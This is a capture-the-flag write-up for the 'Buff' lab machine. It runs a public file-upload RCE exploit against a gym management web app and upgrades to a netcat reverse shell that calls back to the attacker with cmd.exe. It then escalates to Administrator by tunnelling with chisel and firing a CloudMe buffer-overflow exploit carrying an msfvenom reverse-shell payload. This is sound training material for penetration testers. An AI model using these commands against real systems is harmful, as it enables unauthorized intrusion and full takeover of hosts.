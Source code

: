# Buff

### Reconnaissance

- port 7680/tcp pando-pub Pando file management software
- port 8080/tcp HTTP

mrb3n's Bro Hut, made using Gym Management Software 1.0

### Exploitation

Vulnerable to Unauthenticated RCE through file upload https://www.exploit-db.com/exploits/48506

Run the exploit to get a webshell on the target

`python2.7 48506.py 'http://10.10.10.198:8080/`

We can upgrade our shell with `nc64.exe` https://github.com/int0x33/nc.exe

Start an SMB server in our uploads directory

`impacket-smbserver -smb2support share -username s -password s`

Connect to it from the webshell

`C:\xampp\htdocs\gym\upload> net use \\10.10.10.10\share /u:s s`

Copy nc64.exe to the target and get a reverse shell

```
C:\xampp\htdocs\gym\upload> copy \\10.10.14.7\share\nc64.exe C:\ProgramData\nc.exe
C:\xampp\htdocs\gym\upload> C:\ProgramData\nc.exe 10.10.10.10 443 -e cmd.exe
```

### Privilege Escalation

Manual enumeration was very important for Buff, using `netstat -ano | findstr TCP | findstr "127.0.0.1"` we 
can see that a process is listening on port 3306 and on port 8888 (only appears intermittently!) locally

Find the executable listening on the port (not reliable, the PID changes very quickly)

`tasklist /v | findstr <PID>`

Port 3306 is mysql for XAmpp, but 8888 is CloudMe.exe

Search C:\ for CloudMe

`dir C:\ /s /b | findstr CloudMe"`

We find the CloudMe exe in Shaun's Downloads

![CloudMe](./pictures/cloudme.png)

Searchsploit shows a couple of buffer overflows that match the version

![CloudMe](./pictures/cloudme-searchsploit.png)

As it's locally hosted we need to use chisel to expose the port on our machine, run chisel in server mode on 
the attacking machine

`chisel server -p 8000 --reverse`

Upload chisel to the target with our SMB share and run it in client mode

`.\chisel.exe client 10.10.10.10:8000 R:8888:localhost:8888`

Using the remote exploit 48389.py, replace the shellcode for calc.exe with a generic windows/shell_reverse_tcp
generated with msfvenom and add `import sys` or replace `sys.exc_value` with e

`msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload `

Start a netcat listener with rlwrap (Important, won't work otherwise!), swap the shellcode and run the 
exploit to get an Administrator shell

### Lessons Learned

- XAmpp uses php + mysql

- Find local listening network connections with `netstat -ano | findstr TCP | findstr ":0"` the last column 
is the PID

- Find executables running with `tasklist /v`, and with their PID `tasklist /v | findstr <PID>`

- Find file locations with `dir C:\ /s /b | findstr <filename>`

- Use `-v name` with msfvenom shellcode to replace the default variable name

- Use rlwrap to catch shells with netcat to avoid pain and suffering
